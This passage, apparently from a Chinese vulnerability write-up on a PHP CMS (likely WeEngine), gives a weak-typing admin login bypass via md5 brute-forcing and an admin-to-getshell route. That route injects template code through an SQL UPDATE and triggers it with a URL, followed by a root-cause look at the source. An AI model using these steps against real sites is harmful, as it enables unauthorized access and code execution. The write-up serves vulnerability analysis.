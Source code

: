 ```python3
    for t in myThread:
        t.join()
    print("ok, work Done")
    print(okList)

if __name__ == '__main__':
    main()
```

0x05 绕过后台登录
-----------

这里主要是存在弱类型的问题,导致可以fuzz然后绕过后台登录。

![image-20200624130743314](https://shs3.b.qianxin.com/butian_public/f041f8c8061b027e6ea697affa7345091.jpg)

首先hash的加密规则:`$record['hash'] = md5($record['password'] . $record['salt']);`

![image-20200624130432293](https://shs3.b.qianxin.com/butian_public/f6784734db2c28764cd24e8ea2a77e293.jpg)

![image-20200624130842639](https://shs3.b.qianxin.com/butian_public/f243af1b1b50911bf2469958ef6ccf477.jpg)

![image-20200624130448792](https://shs3.b.qianxin.com/butian_public/fcfce68f571cbe35755799e66f245bad8.jpg)

如果管理员密码的md5为数字开头

我们可以通过爆破开头的数字来进行绕过进入系统里面。  
如admin888和password888  
![image-20200624130842639](https://shs3.b.qianxin.com/butian_public/f87cbe36db00d1747283e0b237e682ef8.jpg)  
![image-20200624130842639](https://shs3.b.qianxin.com/butian_public/fac49d2b21ceb399b3e337173309e8fa4.jpg)

0x06 后台绕过getshell
-----------------

这个点可能通杀所有版本吧

首先我们进入站点-&gt;数据库处执行语句:

```php
UPDATE `ims_site_page` SET `uniacid` = '1' , `multiid` = '0' , `title` = '快捷菜单' , `description` = '' , `status` = '0' , `type` = '2' , `params` = '1' , `html` = '{if phpinfo())//}' , `createtime` = '1593049546' WHERE `id` = '1'
```

然后访问:

`/app/index.php?i=1&c=home&a=page&id=1`

![image-20200625103249758](https://shs3.b.qianxin.com/butian_public/f471fd6014513faf4ea858fe1a18ee103.jpg)

**分析成因:**

跟进: app/source/home/page.ctrl.php

```php
if($do == 'getnum'){
........
} else {
    $footer_off = true;
    template_page($id);  // 跟进这里
}
```

